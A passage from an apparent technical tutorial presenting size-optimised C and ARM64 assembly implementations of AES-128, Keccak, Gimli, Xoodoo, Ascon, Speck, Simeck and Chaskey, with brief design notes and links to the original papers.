      // if not round 11, MixColumns
      if(c!=108)
        F(4)w=x[i],x[i]=R(w,8)^R(w,16)^R(w,24)^M(R(w,8)^w);
    }
}
```

The handwritten assembly results in an approx. 40% less code when compared with GNU CC generated assembly. The use of CCMP and CSEL for the statement : `y = (!z && y == w) ? z = 1 : y;` should protect against side-channel attacks. However, as I stated at the beginning of this section, I am not a cryptographer and do not wish to make security claims on the implementations provided here. The BFXIL instruction is used to replace the low 8-bits of register input to the `SubByte` subroutine.

```assembly
// AES-128 Encryption in ARM64 assembly
// 352 bytes

    .arch armv8-a
    .text

    .global E

// *****************************
// Multiplication over GF(2**8)
// *****************************
M:
    and      w10, w14, 0x80808080
    mov      w12, 27
    lsr      w8, w10, 7
    mul      w8, w8, w12
    eor      w10, w14, w10
    eor      w10, w8, w10, lsl 1
    ret

// *****************************
// B SubByte(B x);
// *****************************
S:
    str      lr, [sp, -16]!
    ands     w7, w13, 0xFF
    beq      SB2

    mov      w14, 1
    mov      w15, 1
    mov      x3, 0xFF
SB0:
    cmp      w15, 1
    ccmp     w14, w7, 0, eq
    csel     w14, w15, w14, eq
    csel     w15, wzr, w15, eq
    bl       M
    eor      w14, w14, w10
    subs     x3, x3, 1
    bne      SB0

    and      w7, w14, 0xFF
    mov      x3, 4
SB1:
    lsr      w10, w14, 7
    orr      w14, w10, w14, lsl 1
    eor      w7, w7, w14
    subs     x3, x3, 1
    bne      SB1
SB2:
    mov      w10, 99
    eor      w7, w7, w10
    bfxil    w13, w7, 0, 8
    ldr      lr, [sp], 16
    ret

// *****************************
// void E(void *s);
// *****************************
E:
    str      lr, [sp, -16]!
    sub      sp, sp, 32

    // copy plain text + master key to x
    // F(8)x[i]=((W*)s)[i];
    ldp      x5, x6, [x0]
    ldp      x7, x8, [x0, 16]
    stp      x5, x6, [sp]
    stp      x7, x8, [sp, 16]

    // c = 1
    mov      w4, 1
L0:
    // AddRoundKey, 1st part of ExpandRoundKey
    // w=k[3];F(4)w=(w&-256)|S(w),w=R(w,8),((W*)s)[i]=x[i]^k[i];
    mov      x2, xzr
    ldr      w13, [sp, 16+3*4]
    add      x1, sp, 16
L1:
    bl       S
    ror      w13, w13, 8
    ldr      w10, [sp, x2, lsl 2]
    ldr      w11, [x1, x2, lsl 2]
    eor      w10, w10, w11
    str      w10, [x0, x2, lsl 2]

    add      x2, x2, 1
    cmp      x2, 4
    bne      L1

    // AddRoundConstant, perform 2nd part of ExpandRoundKey
    // w=R(w,8)^c;F(4)w=k[i]^=w;
    eor      w13, w4, w13, ror 8
L2:
    ldr      w10, [x1]
    eor      w13, w13, w10
    str      w13, [x1], 4

    subs     x2, x2, 1
    bne      L2

    // if round 11, stop
    // if(c==108)break;
    cmp      w4, 108
    beq      L5

    // update round constant
    // c=M(c);
    mov      w14, w4
    bl       M
    mov      w4, w10

    // SubBytes and ShiftRows
    // F(16)((B*)x)[(i%4)+(((i/4)-(i%4))%4)*4]=S(s[i]);
L3:
    ldrb     w13, [x0, x2]
    bl       S
    and      w10, w2, 3
    lsr      w11, w2, 2
    sub      w11, w11, w10
    and      w11, w11, 3
    add      w10, w10, w11, lsl 2
    strb     w13, [sp, w10, uxtw]

    add      x2, x2, 1
    cmp      x2, 16
    bne      L3

    // if (c != 108)
    cmp      w4, 108
L4:
    beq      L0
    subs     x2, x2, 4

    // MixColumns
    // F(4)w=x[i],x[i]=R(w,8)^R(w,16)^R(w,24)^M(R(w,8)^w);
    ldr      w13, [sp, x2]
    eor      w14, w13, w13, ror 8
    bl       M
    eor      w14, w10, w13, ror 8
    eor      w14, w14, w13, ror 16
    eor      w14, w14, w13, ror 24
    str      w14, [sp, x2]

    b        L4
L5:
    add      sp, sp, 32
    ldr      lr, [sp], 16
    ret
```

### 7.2 KECCAK

A permutation function designed by the [Keccak team](https://keccak.team/index.html) (Guido Bertoni, Joan Daemen, Michaël Peeters and Gilles Van Assche).

- [The Keccak Reference](https://keccak.team/files/Keccak-reference-3.0.pdf)
- [Keccak Implementation Overview](https://keccak.team/files/Keccak-implementation-3.2.pdf)
- [Keccak Code Package](https://github.com/gvanas/KeccakCodePackage)

```c
#define R(v,n)(((v)<<(n))|((v)>>(64-(n))))
#define F(a,b)for(a=0;a<b;a++)
  
void keccak(void*p){
  unsigned long long n,i,j,r,x,y,t,Y,b[5],*s=p;
  unsigned char RC=1;
  
  F(n,24){
    F(i,5){b[i]=0;F(j,5)b[i]^=s[i+5*j];}
    F(i,5){
      t=b[(i+4)%5]^R(b[(i+1)%5],1);
      F(j,5)s[i+5*j]^=t;}
    t=s[1],y=r=0,x=1;
    F(j,24)
      r+=j+1,Y=2*x+3*y,x=y,y=Y%5,
      Y=s[x+5*y],s[x+5*y]=R(t,r%64),t=Y;
    F(j,5){
      F(i,5)b[i]=s[i+5*j];
      F(i,5)
        s[i+5*j]=b[i]^(~b[(i+1)%5]&b[(i+2)%5]);}
    F(j,7)
      if((RC=(RC<<1)^(113*(RC>>7)))&2)
        *s^=1ULL<<((1<<j)-1);
  }
}
```

The following source is an example of where preprocessor directives are used to ease implementation of the original source code. This would be first processed with `CPP` using the -E option. I’ve done this so it’s easier to create Keccak-f[800, 22] assembly code for the ARM32 or ARM64 architecture if required later.

The ARM instruction set doesn’t feature a modulus instruction. Unlike the DIV or IDIV instructions on x86, UDIV and SDIV don’t calculate the remainder. The solution is to use a bitwise AND where the divisor is a power of 2 and a combination of division, multiplication and subtraction for everything else. The formula for divisors that are not a power of 2 is : `a - (n * int(a/n))`. To implement in ARM64 assembly, UDIV and MSUB are used.

```assembly
// keccak-f[1600, 24]
// 428 bytes

    .arch armv8-a
    .text
    .global k1600

    #define s x0
    #define n x1
    #define i x2
    #define j x3
    #define r x4
    #define x x5
    #define y x6
    #define t x7
    #define Y x8
    #define c x9   // round constant (unsigned char)
    #define d x10
    #define v x11
    #define u x12
    #define b sp   // local buffer

k1600:
    sub     sp, sp, 64
    // F(n,24){
    mov     n, 24
    mov     c, 1                // c = 1
L0:
    mov     d, 5
    // F(i,5){b[i]=0;F(j,5)b[i]^=s[i+j*5];}
    mov     i, 0                // i = 0
L1:
    mov     j, 0                // j = 0
    mov     u, 0                // u = 0
L2:
    madd    v, j, d, i          // v = (j * 5) + i
    ldr     v, [s, v, lsl 3]    // v = s[v]

    eor     u, u, v             // u ^= v

    add     j, j, 1             // j = j + 1
    cmp     j, 5                // j < 5
    bne     L2

    str     u, [b, i, lsl 3]    // b[i] = u

    add     i, i, 1             // i = i + 1
    cmp     i, 5                // i < 5
    bne     L1

    // F(i,5){
    mov     i, 0
L3:
    // t=b[(i+4)%5] ^ R(b[(i+1)%5], 63);
    add     v, i, 4             // v = i + 4
    udiv    u, v, d             // u = (v / 5)
    msub    v, u, d, v          // v = (v - (u * 5))
    ldr     t, [b, v, lsl 3]    // t = b[v]

    add     v, i, 1             // v = i + 1
    udiv    u, v, d             // u = (v / 5)
    msub    v, u, d, v          // v = (v - (u * 5))
    ldr     u, [b, v, lsl 3]    // u = b[v]

    eor     t, t, u, ror 63     // t ^= R(u, 63)

    // F(j,5)s[i+j*5]^=t;}
    mov     j, 0
L4:
    madd    v, j, d, i          // v = (j * 5) + i
    ldr     u, [s, v, lsl 3]    // u = s[v]
    eor     u, u, t             // u ^= t
    str     u, [s, v, lsl 3]    // s[v] = u 

    add     j, j, 1             // j = j + 1
    cmp     j, 5                // j < 5
    bne     L4

    add     i, i, 1             // i = i + 1
    cmp     i, 5                // i < 5
    bne     L3

    // t=s[1],y=r=0,x=1;
    ldr     t, [s, 8]           // t = s[1]
    mov     y, 0                // y = 0
    mov     r, 0                // r = 0
    mov     x, 1                // x = 1

    // F(j,24)
    mov     j, 0
L5:
    add     j, j, 1             // j = j + 1
    // r+=j+1,Y=(x*2)+(y*3),x=y,y=Y%5,
    add     r, r, j             // r = r + j
    add     Y, y, y, lsl 1      // Y = y * 3
    add     Y, Y, x, lsl 1      // Y = Y + (x * 2)
    mov     x, y                // x = y 
    udiv    y, Y, d             // y = (Y / 5)
    msub    y, y, d, Y          // y = (Y - (y * 5)) 

    // Y=s[x+y*5],s[x+y*5]=R(t, -(r - 64) % 64),t=Y;
    madd    v, y, d, x          // v = (y * 5) + x
    ldr     Y, [s, v, lsl 3]    // Y = s[v]
    neg     u, r
    ror     t, t, u             // t = R(t, u)
    str     t, [s, v, lsl 3]    // s[v] = t 
    mov     t, Y

    cmp     j, 24               // j < 24
    bne     L5

    // F(j,5){
    mov     j, 0                // j = 0
L6:
    // F(i,5)b[i] = s[i+j*5];
    mov     i, 0                // i = 0
L7:
    madd    v, j, d, i          // v = (j * 5) + i
    ldr     t, [s, v, lsl 3]    // t = s[v]
    str     t, [b, i, lsl 3]    // b[i] = t

    add     i, i, 1             // i = i + 1
    cmp     i, 5                // i < 5
    bne     L7

    // F(i,5)
    mov     i, 0                // i = 0
L8:
    // s[i+j*5] = b[i] ^ (b[(i+2)%5] & ~b[(i+1)%5]);}
    add     v, i, 2             // v = i + 2 
    udiv    u, v, d             // u = v / 5
    msub    v, u, d, v          // v = (v - (u * 5)) 
    ldr     t, [b, v, lsl 3]    // t = b[v]

    add     v, i, 1             // v = i + 1
    udiv    u, v, d             // u = v / 5 
    msub    v, u, d, v          // v = (v - (u * 5)) 
    ldr     u, [b, v, lsl 3]    // u = b[v]

    bic     u, t, u             // u = (t & ~u)

    ldr     t, [b, i, lsl 3]    // t = b[i]
    eor     t, t, u             // t ^= u

    madd    v, j, d, i          // v = (j * 5) + i
    str     t, [s, v, lsl 3]    // s[v] = t

    add     i, i, 1             // i++
    cmp     i, 5                // i < 5
    bne     L8

    add     j, j, 1
    cmp     j, 5
    bne     L6

    // F(j,7)
    mov     j, 0                // j = 0
    mov     d, 113
L9:
    // if((c=(c<<1)^((c>>7)*113))&2)
    lsr     t, c, 7             // t = c >> 7
    mul     t, t, d             // t = t * 113 
    eor     c, t, c, lsl 1      // c = t ^ (c << 1)
    and     c, c, 255           // c = c % 256 
    tbz     c, 1, L10           // if (c & 2)

    //   *s^=1ULL<<((1<<j)-1);
    mov     v, 1                // v = 1
    lsl     u, v, j             // u = v << j 
    sub     u, u, 1             // u = u - 1
    lsl     v, v, u             // v = v << u
    ldr     t, [s]              // t = s[0]
    eor     t, t, v             // t ^= v
    str     t, [s]              // s[0] = t
L10:
    add     j, j, 1             // j = j + 1
    cmp     j, 7                // j < 7
    bne     L9

    subs    n, n, 1             // n = n - 1
    bne     L0

    add     sp, sp, 64
    ret
```

### 7.3 GIMLI

A permutation function designed by Daniel J. Bernstein, Stefan Kölbl, Stefan Lucks, Pedro Maat Costa Massolino, Florian Mendel, Kashif Nawaz, Tobias Schneider, Peter Schwabe, François-Xavier Standaert, Yosuke Todo, and Benoît Viguier.

- [Gimli: a cross-platform permutation](https://gimli.cr.yp.to/)

```c
#define R(v,n)(((v)<<(n))|((v)>>(32-(n))))
#define X(a,b)(t)=(s[a]),(s[a])=(s[b]),(s[b])=(t)
  
void gimli(void*p){
  unsigned int r,j,t,x,y,z,*s=p;

  for(r=24;r>0;--r){
    for(j=0;j<4;j++)
      x=R(s[j],24),
      y=R(s[4+j],9),
      z=s[8+j],   
      s[8+j]=x^(z+z)^((y&z)*4),
      s[4+j]=y^x^((x|z)*2),
      s[j]=z^y^((x&y)*8);
    t=r&3;    
    if(!t)
      X(0,1),X(2,3),
      *s^=0x9e377900|r;   
    if(t==2)X(0,2),X(1,3);
  }
}
```

At the 2018 [Advances in permutation-based cryptography](https://permutationbasedcrypto.org/2018/), Benoît Viguier suggests using an *Even-Mansour* construction to implement a block cipher.

```assembly
// Gimli in ARM64 assembly
// 152 bytes

    .arch armv8-a
    .text

    .global gimli

gimli:
    ldr    w8, =(0x9e377900 | 24)  // c = 0x9e377900 | 24; 
L0:
    mov    w7, 4                // j = 4
    mov    x1, x0               // x1 = s
L1:
    ldr    w2, [x1]             // x = R(s[j],  8);
    ror    w2, w2, 8

    ldr    w3, [x1, 16]         // y = R(s[4+j], 23);
    ror    w3, w3, 23

    ldr    w4, [x1, 32]         // z = s[8+j];

    // s[8+j] = x^(z<<1)^((y&z)<<2);
    eor    w5, w2, w4, lsl 1    // t0 = x ^ (z << 1)
    and    w6, w3, w4           // t1 = y & z
    eor    w5, w5, w6, lsl 2    // t0 = t0 ^ (t1 << 2)
    str    w5, [x1, 32]         // s[8 + j] = t0

    // s[4+j] = y^x^((x|z)<<1);
    eor    w5, w3, w2           // t0 = y ^ x
    orr    w6, w2, w4           // t1 = x | z       
    eor    w5, w5, w6, lsl 1    // t0 = t0 ^ (t1 << 1)
    str    w5, [x1, 16]         // s[4+j] = t0 

    // s[j] = z^y^((x&y)<<3);
    eor    w5, w4, w3           // t0 = z ^ y
    and    w6, w2, w3           // t1 = x & y
    eor    w5, w5, w6, lsl 3    // t0 = t0 ^ (t1 << 3)
    str    w5, [x1], 4          // s[j] = t0, s++

    subs   w7, w7, 1
    bne    L1                   // j != 0

    ldp    w1, w2, [x0]
    ldp    w3, w4, [x0, 8]

    // apply linear layer
    // t0 = (r & 3);
    ands   w5, w8, 3
    bne    L2

    // X(s[2], s[3]);
    stp    w4, w3, [x0, 8]
    // s[0] ^= (0x9e377900 | r);
    eor    w2, w2, w8
    // X(s[0], s[1]);
    stp    w2, w1, [x0]
L2:
    // if (t == 2)
    cmp    w5, 2
    bne    L3

    // X(s[0], s[2]);
    stp    w1, w2, [x0, 8]
    // X(s[1], s[3]);
    stp    w3, w4, [x0]
L3:
    sub    w8, w8, 1           // r--
    uxtb   w5, w8
    cbnz   w5, L0              // r != 0
    ret
```

### 7.4 XOODOO

A permutation function designed by the [Keccak team](https://keccak.team/index.html). The cookbook includes information on implementing Authenticated Encryption (AE) and a tweakable Wide Block Cipher (WBC).

- [Xoodoo cookbook](https://eprint.iacr.org/2018/767/)
- [eXtended Keccak Code Package](https://github.com/XKCP/XKCP)

```c
#define R(v,n)(((v)>>(n))|((v)<<(32-(n))))
#define X(u,v)t=s[u],s[u]=s[v],s[v]=t
#define F(n)for(i=0;i<n;i++)
typedef unsigned int W;

void xoodoo(void*p){
  W e[4],a,b,c,t,r,i,*s=p;
  W x[12]={
    0x058,0x038,0x3c0,0x0d0,
    0x120,0x014,0x060,0x02c,
    0x380,0x0f0,0x1a0,0x012};

  for(r=0;r<12;r++){
    F(4)
      e[i]=R(s[i]^s[i+4]^s[i+8],18),
      e[i]^=R(e[i],9);
    F(12)
      s[i]^=e[(i-1)&3];
    X(7,4);X(7,5);X(7,6);
    s[0]^=x[r];
    F(4)
      a=s[i],
      b=s[i+4],
      c=R(s[i+8],21),
      s[i+8]=R((b&~a)^c,24),
      s[i+4]=R((a&~c)^b,31),
      s[i]^=c&~b;
    X(8,10);X(9,11);
  }
}
```

Again, this is all optimized for size rather than performance.

```assembly
// xoodoo in ARM64 assembly
// 268 bytes

    .arch armv8-a
    .text

    .global xoodoo

xoodoo:
    sub    sp, sp, 16          // allocate 16 bytes
    adr    x8, rc
    mov    w9, 12               // 12 rounds
L0:
    mov    w7, 0                // i = 0
    mov    x1, x0
L1:
    ldr    w4, [x1, 32]         // w4 = s[i+8]
    ldr    w3, [x1, 16]         // w3 = s[i+4]
    ldr    w2, [x1], 4          // w2 = s[i+0], advance x1 by 4

    // e[i] = R(s[i] ^ s[i+4] ^ s[i+8], 18);
    eor    w2, w2, w3
    eor    w2, w2, w4
    ror    w2, w2, 18

    // e[i] ^= R(e[i], 9);
    eor    w2, w2, w2, ror 9
    str    w2, [sp, x7, lsl 2]  // store in e

    add    w7, w7, 1            // i++
    cmp    w7, 4                // i < 4
    bne    L1                   //

    // s[i]^= e[(i - 1) & 3];
    mov    w7, 0                // i = 0
L2:
    sub    w2, w7, 1
    and    w2, w2, 3            // w2 = i & 3
    ldr    w2, [sp, x2, lsl 2]  // w2 = e[(i - 1) & 3]
    ldr    w3, [x0, x7, lsl 2]  // w3 = s[i]
    eor    w3, w3, w2           // w3 ^= w2 
    str    w3, [x0, x7, lsl 2]  // s[i] = w3 
    add    w7, w7, 1            // i++
    cmp    w7, 12               // i < 12
    bne    L2

    // Rho west
    // X(s[7], s[4]);
    // X(s[7], s[5]);
    // X(s[7], s[6]);
    ldp    w2, w3, [x0, 16]
    ldp    w4, w5, [x0, 24]
    stp    w5, w2, [x0, 16]
    stp    w3, w4, [x0, 24]

    // Iota
    // s[0] ^= *rc++;
    ldrh   w2, [x8], 2         // load half-word, advance by 2
    ldr    w3, [x0]            // load word
    eor    w3, w3, w2          // xor
    str    w3, [x0]            // store word

    mov    w7, 4
    mov    x1, x0
L3:
    // Chi and Rho east
    // a = s[i+0];
    ldr    w2, [x1]

    // b = s[i+4];
    ldr    w3, [x1, 16]

    // c = R(s[i+8], 21);
    ldr    w4, [x1, 32]
    ror    w4, w4, 21

    // s[i+8] = R((b & ~a) ^ c, 24);
    bic    w5, w3, w2
    eor    w5, w5, w4
    ror    w5, w5, 24
    str    w5, [x1, 32]

    // s[i+4] = R((a & ~c) ^ b, 31);
    bic    w5, w2, w4
    eor    w5, w5, w3
    ror    w5, w5, 31
    str    w5, [x1, 16]

    // s[i+0]^= c & ~b;
    bic    w5, w4, w3
    eor    w5, w5, w2
    str    w5, [x1], 4

    // i--
    subs   w7, w7, 1
    bne    L3

    // X(s[8], s[10]);
    // X(s[9], s[11]);
    ldp    w2, w3, [x0, 32] // 8, 9
    ldp    w4, w5, [x0, 40] // 10, 11
    stp    w2, w3, [x0, 40]
    stp    w4, w5, [x0, 32]

    subs   w9, w9, 1           // r--
    bne    L0                  // r != 0

    // release stack
    add    sp, sp, 16
    ret
    // round constants
rc:
    .hword 0x058, 0x038, 0x3c0, 0x0d0
    .hword 0x120, 0x014, 0x060, 0x02c
    .hword 0x380, 0x0f0, 0x1a0, 0x012
```

### 7.5 ASCON

A permutation function designed by Christoph Dobraunig, Maria Eichlseder, Florian Mendel and Martin Schläffer. Ascon uses a sponge-based mode of operation. The recommended key, tag and nonce length is 128 bits. The sponge operates on a state of 320 bits, with injected message blocks of 64 or 128 bits. The core permutation iteratively applies an SPN-based round transformation with a 5-bit S-box and a lightweight linear layer.

[Ascon website](http://ascon.iaik.tugraz.at/)

```c
#define R(x,n)(((x)>>(n))|((x)<<(64-(n))))
typedef unsigned long long W;

void ascon(void*p) {
    int i;
    W   t0,t1,t2,t3,t4,x0,x1,x2,x3,x4,*s=(W*)p;
    
    // load 320-bit state
    x0=s[0];x1=s[1];x2=s[2];x3=s[3];x4=s[4];
    // apply 12 rounds
    for(i=0;i<12;i++) {
      // add round constant
      x2^=((0xFULL-i)<<4)|i;
      // apply non-linear layer
      x0^=x4;x4^=x3;x2^=x1;
      t4=(x0&~x4);t3=(x4&~x3);t2=(x3&~x2);t1=(x2&~x1);t0=(x1&~x0);
      x0^=t1;x1^=t2;x2^=t3;x3^=t4;x4^=t0;
      x1^=x0;x0^=x4;x3^=x2;x2=~x2;
      // apply linear diffusion layer
      x0^=R(x0,19)^R(x0,28);x1^=R(x1,61)^R(x1,39);
      x2^=R(x2,1)^R(x2,6);x3^=R(x3,10)^R(x3,17);
      x4^=R(x4,7)^R(x4,41);
    }
    // save 320-bit state
    s[0]=x0;s[1]=x1;s[2]=x2;s[3]=x3;s[4]=x4;
}
```

This algorithm works really well on the ARM64 architecture. Very simple operations.

```assembly
// ASCON in ARM64 assembly
// 192 bytes

    .arch armv8-a
    .text

    .global ascon

ascon:
    mov    x10, x0
    // load 320-bit state
    ldp    x0, x1, [x10]
    ldp    x2, x3, [x10, 16]
    ldr    x4, [x10, 32]

    // apply 12 rounds
    mov    x11, xzr
L0:
    // add round constant
    // x2^=((0xFULL-i)<<4)|i;
    mov    x12, 0xF
    sub    x12, x12, x11
    orr    x12, x11, x12, lsl 4
    eor    x2, x2, x12

    // apply non-linear layer
    // x0^=x4;x4^=x3;x2^=x1;
    eor    x0, x0, x4
    eor    x4, x4, x3
    eor    x2, x2, x1

    // t4=(x0&~x4);t3=(x4&~x3);t2=(x3&~x2);t1=(x2&~x1);t0=(x1&~x0);
    bic    x5, x1, x0
    bic    x6, x2, x1
    bic    x7, x3, x2
    bic    x8, x4, x3
    bic    x9, x0, x4

    // x0^=t1;x1^=t2;x2^=t3;x3^=t4;x4^=t0;
    eor    x0, x0, x6
    eor    x1, x1, x7
    eor    x2, x2, x8
    eor    x3, x3, x9
    eor    x4, x4, x5

    // x1^=x0;x0^=x4;x3^=x2;x2=~x2;
    eor    x1, x1, x0
    eor    x0, x0, x4
    eor    x3, x3, x2
    mvn    x2, x2

    // apply linear diffusion layer
    // x0^=R(x0,19)^R(x0,28);
    ror    x5, x0, 19
    eor    x5, x5, x0, ror 28
    eor    x0, x0, x5

    // x1^=R(x1,61)^R(x1,39);
    ror    x5, x1, 61
    eor    x5, x5, x1, ror 39
    eor    x1, x1, x5

    // x2^=R(x2,1)^R(x2,6);
    ror    x5, x2, 1
    eor    x5, x5, x2, ror 6
    eor    x2, x2, x5

    // x3^=R(x3,10)^R(x3,17);
    ror    x5, x3, 10
    eor    x5, x5, x3, ror 17
    eor    x3, x3, x5

    // x4^=R(x4,7)^R(x4,41);
    ror    x5, x4, 7
    eor    x5, x5, x4, ror 41
    eor    x4, x4, x5

    // i++
    add    x11, x11, 1
    // i < 12
    cmp    x11, 12
    bne    L0

    // save 320-bit state
    stp    x0, x1, [x10]
    stp    x2, x3, [x10, 16]
    str    x4, [x10, 32]
    ret
```

### 7.6 SPECK

A block cipher from the NSA that was intended to make its way into IoT devices. Designed by Ray Beaulieu, Douglas Shors, Jason Smith, Stefan Treatman-Clark, Bryan Weeks and Louis Wingers.

[The SIMON and SPECK Families of Lightweight Block Ciphers](https://eprint.iacr.org/2013/404)

```c
#define R(v,n)(((v)>>(n))|((v)<<(32-(n))))
#define F(n)for(i=0;i<n;i++)
typedef unsigned int W;

void speck(void*mk,void*p){
  W k[4],*x=p,i,t;
  
  F(4)k[i]=((W*)mk)[i];
  
  F(27)
    *x=(R(*x,8)+x[1])^*k,
    x[1]=R(x[1],29)^*x,
    t=k[3],
    k[3]=(R(k[1],8)+*k)^i,
    *k=R(*k,29)^k[3],
    k[1]=k[2],k[2]=t;
}
```

SPECK has been surrounded by [controversy](https://www.spinics.net/lists/linux-crypto/msg33291.html) since the NSA proposed including it in the ISO/IEC 29192-2 portfolio, however, they are still useful for shellcodes.

```assembly
// SPECK-64/128 in ARM64 assembly
// 80 bytes

    .arch armv8-a
    .text

    .global speck64

    // speck64(void*mk, void*data);
speck64:
    // load 128-bit key
    // k0 = k[0]; k1 = k[1]; k2 = k[2]; k3 = k[3];
    ldp    w5, w6, [x0]
    ldp    w7, w8, [x0, 8]
    // load 64-bit plain text
    ldp    w2, w4, [x1]         // x0 = x[0]; x1 = k[1];
    mov    w3, wzr              // i=0
L0:
    ror    w2, w2, 8
    add    w2, w2, w4           // x0 = (R(x0, 8) + x1) ^ k0;
    eor    w2, w2, w5           //
    eor    w4, w2, w4, ror 29   // x1 = R(x1, 3) ^ x0;
    mov    w9, w8               // backup k3
    ror    w6, w6, 8
    add    w8, w5, w6           // k3 = (R(k1, 8) + k0) ^ i;
    eor    w8, w8, w3           //
    eor    w5, w8, w5, ror 29   // k0 = R(k0, 3) ^ k3;
    mov    w6, w7               // k1 = k2;
    mov    w7, w9               // k2 = t;
    add    w3, w3, 1            // i++;
    cmp    w3, 27               // i < 27;
    bne    L0

    // save result
    stp    w2, w4, [x1]         // x[0] = x0; x[1] = x1;
    ret
```

Since there isn’t a huge difference between the two variants, here’s the 128/256 version that works best on 64-bit architectures.

```c
#define R(v,n)(((v)>>(n))|((v)<<(64-(n))))
#define F(n)for(i=0;i<n;i++)
typedef unsigned long long W;

void speck128(void*mk,void*p){
  W k[4],*x=p,i,t;

  F(4)k[i]=((W*)mk)[i];
  
  F(34)
    x[1]=(R(x[1],8)+*x)^*k,
    *x=R(*x,61)^x[1],
    t=k[3],
    k[3]=(R(k[1],8)+*k)^i,
    *k=R(*k,61)^k[3],
    k[1]=k[2],k[2]=t;
}
```

Again, the assembly is almost exactly the same.

```assembly
// SPECK-128/256 in ARM64 assembly
// 80 bytes

    .arch armv8-a
    .text

    .global speck128

    // speck128(void*mk, void*data);
speck128:
    // load 256-bit key
    // k0 = k[0]; k1 = k[1]; k2 = k[2]; k3 = k[3];
    ldp    x5, x6, [x0]
    ldp    x7, x8, [x0, 16]
    // load 128-bit plain text
    ldp    x2, x4, [x1]         // x0 = x[0]; x1 = k[1];
    mov    x3, xzr              // i=0
L0:
    ror    x4, x4, 8
    add    x4, x4, x2           // x1 = (R(x1, 8) + x0) ^ k0;
    eor    x4, x4, x5           //
    eor    x2, x4, x2, ror 61   // x0 = R(x0, 61) ^ x1;
    mov    x9, x8               // backup k3
    ror    x6, x6, 8
    add    x8, x5, x6           // k3 = (R(k1, 8) + k0) ^ i;
    eor    x8, x8, x3           //
    eor    x5, x8, x5, ror 61   // k0 = R(k0, 61) ^ k3;
    mov    x6, x7               // k1 = k2;
    mov    x7, x9               // k2 = t;
    add    x3, x3, 1            // i++;
    cmp    x3, 34               // i < 34;
    bne    L0

    // save result
    stp    x2, x4, [x1]         // x[0] = x0; x[1] = x1;
    ret
```

The designs are nice, but independent cryptographers suggest there may be weaknesses in these ciphers that only the NSA know about.

### 7.7 SIMECK

A block cipher designed by Gangqiang Yang, Bo Zhu, Valentin Suder, Mark D. Aagaard, and Guang Gong was published in 2015. According to the authors, SIMECK combines the good design components of both SIMON and SPECK, in order to devise more compact and efficient block ciphers.

- [The Simeck Family of Lightweight Block Ciphers](https://eprint.iacr.org/2015/612)

```c
#define R(v,n)(((v)<<(n))|((v)>>(32-(n))))
#define X(a,b)(t)=(a),(a)=(b),(b)=(t)

void simeck(void*mk,void*p){
  unsigned int t,k0,k1,k2,k3,l,r,*k=mk,*x=p;
  unsigned long long s=0x938BCA3083F;

  k0=*k;k1=k[1];k2=k[2];k3=k[3]; 
  r=*x;l=x[1];

  do{
    r^=R(l,1)^(R(l,5)&l)^k0;
    X(l,r);
    t=(s&1)-4;
    k0^=R(k1,1)^(R(k1,5)&k1)^t;    
    X(k0,k1);X(k1,k2);X(k2,k3);
  } while(s>>=1);
  *x=r; x[1]=l;
}
```

I cannot say if SIMECK is more compact than SIMON in hardware. However, SPECK is clearly more compact in software.

```assembly
// SIMECK in ARM64 assembly
// 100 bytes

    .arch armv8-a
    .text
    .global simeck

simeck:
     // unsigned long long s = 0x938BCA3083F;
     movz    x2, 0x083F
     movk    x2, 0xBCA3, lsl 16
     movk    x2, 0x0938, lsl 32

     // load 128-bit key 
     ldp     w3, w4, [x0]
     ldp     w5, w6, [x0, 8]

     // load 64-bit plaintext 
     ldp     w8, w7, [x1]
L0:
     // r ^= R(l,1) ^ (R(l,5) & l) ^ k0;
     eor     w9, w3, w7, ror 31
     and     w10, w7, w7, ror 27
     eor     w9, w9, w10
     mov     w10, w7
     eor     w7, w8, w9
     mov     w8, w10

     // t1 = (s & 1) - 4;
     // k0 ^= R(k1,1) ^ (R(k1,5) & k1) ^ t1;
     // X(k0,k1); X(k1,k2); X(k2,k3);
     eor     w3, w3, w4, ror 31
     and     w9, w4, w4, ror 27
     eor     w9, w9, w3
     mov     w3, w4
     mov     w4, w5
     mov     w5, w6
     and     x10, x2, 1
     sub     x10, x10, 4
     eor     w6, w9, w10

     // s >>= 1
     lsr     x2, x2, 1
     cbnz    x2, L0

     // save 64-bit ciphertext 
     stp     w8, w7, [x1]
     ret
```

### 7.8 CHASKEY

A block cipher designed by Nicky Mouha, Bart Mennink, Anthony Van Herrewege, Dai Watanabe, Bart Preneel and Ingrid Verbauwhede. Although Chaskey is specifically a MAC function, the underlying primitive is a block cipher. What you see below is only encryption, however, it is possible to implement an inverse function for decryption by reversing the function using **rol** and **sub** in place of **ror** and **add**.

[Chaskey: An Efficient MAC Algorithm for 32-bit Microcontrollers](https://eprint.iacr.org/2014/386)

```assembly
#define R(v,n)(((v)>>(n))|((v)<<(32-(n))))
#define F(n)for(i=0;i<n;i++)
  
void chaskey(void*mk,void*p){
  unsigned int i,*x=p,*k=mk;

  F(4)x[i]^=k[i];
  F(16)
    *x+=x[1],
    x[1]=R(x[1],27)^*x,
    x[2]+=x[3],
    x[3]=R(x[3],24)^x[2],
    x[2]+=x[1],
    *x=R(*x,16)+x[3],
    x[3]=R(x[3],19)^*x,
    x[1]=R(x[1],25)^x[2],
    x[2]=R(x[2],16);
  F(4)x[i]^=k[i];
}
// CHASKEY in ARM64 assembly
// 112 bytes

  .arch armv8-a
  .text

  .global chaskey

  // chaskey(void*mk, void*data);
chaskey:
    // load 128-bit key
    ldp    w2, w3, [x0]
    ldp    w4, w5, [x0, 8]

    // load 128-bit plain text
    ldp    w6, w7, [x1]
    ldp    w8, w9, [x1, 8]

    // xor plaintext with key
    eor    w6, w6, w2          // x[0] ^= k[0];
    eor    w7, w7, w3          // x[1] ^= k[1];
    eor    w8, w8, w4          // x[2] ^= k[2];
    eor    w9, w9, w5          // x[3] ^= k[3];
    mov    w10, 16             // i = 16
L0:
    add    w6, w6, w7          // x[0] += x[1];
    eor    w7, w6, w7, ror 27  // x[1]=R(x[1],27) ^ x[0];
    add    w8, w8, w9          // x[2] += x[3];
    eor    w9, w8, w9, ror 24  // x[3]=R(x[3],24) ^ x[2];
    add    w8, w8, w7          // x[2] += x[1];
    ror    w6, w6, 16
    add    w6, w9, w6          // x[0]=R(x[0],16) + x[3];
    eor    w9, w6, w9, ror 19  // x[3]=R(x[3],19) ^ x[0];
    eor    w7, w8, w7, ror 25  // x[1]=R(x[1],25) ^ x[2];
    ror    w8, w8, 16          // x[2]=R(x[2],16);
    subs   w10, w10, 1         // i--
    bne    L0                  // i > 0

    // xor cipher text with key
